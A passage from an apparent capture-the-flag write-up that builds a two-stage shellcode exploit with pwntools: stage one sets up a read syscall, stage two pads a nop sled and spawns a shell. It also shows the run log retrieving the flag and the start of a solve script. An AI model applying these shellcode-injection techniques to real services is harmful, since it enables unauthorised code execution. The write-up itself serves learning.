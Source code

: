 ```python
    return rax_zero
```

The only thing we need to do next is to send our stage1 shellcode and then read our stage2 shellcode. Note, our second stage starts writing at the beginning our the stage1 shellcode, so we'll need to ``nop`` out the beginning until we reach the next instruction to execute. For this reason, we pad the front of our second stage with ``stage2 = asm(shellcraft.nop())*(len(stage1)+0x8*5)``

```python
log.info('Building Stage1 Shellcode.')
stage1 = pop_rsi()
stage1 += zero_edi()
stage1 += big_edx()
stage1 += zero_rax()
stage1 += asm('syscall')

log.info('Throwing Stage 1 Shellcode (%i bytes)' % len(stage1))
p.sendline(stage1)
pause()

stage2 = asm(shellcraft.nop())*(len(stage1)+0x8*5)
stage2 += asm(shellcraft.sh())
log.info('Throwing Stage 2 Shellcode (%i bytes)' % len(stage2))
p.sendline(stage2)

p.interactive()
```

Testing our script against the remote server, we are excited to see it works and get the flag.

```
[+] Opening connection to tamuctf.com on port 443: Done
[*] Building Stage1 Shellcode.
[*] > (pop rsi)*3 shellcode : (35 bytes)
[*] > (mov edi, 0x0) shellcode : (25 bytes)
[*] > (mov edx, 0x1fb) shellcode : (48 bytes)
[*] > (sub rax, rax) shellcode : (123 bytes)
[*] Throwing Stage 1 Shellcode (233 bytes)
[*] Paused (press any to continue)
[*] Throwing Stage 2 Shellcode (321 bytes)
[*] Switching to interactive mode
$ cat flag.txt
gigem{Sh3llc0d1ng_1s_FuN}
```

Our final solve script follows:

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary, checksec=False)

gs = '''
break *$rebase(0x1293)
continue
'''


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("tamuctf.com", 443, ssl=True, sni="contrived-shellcode")
    else:
```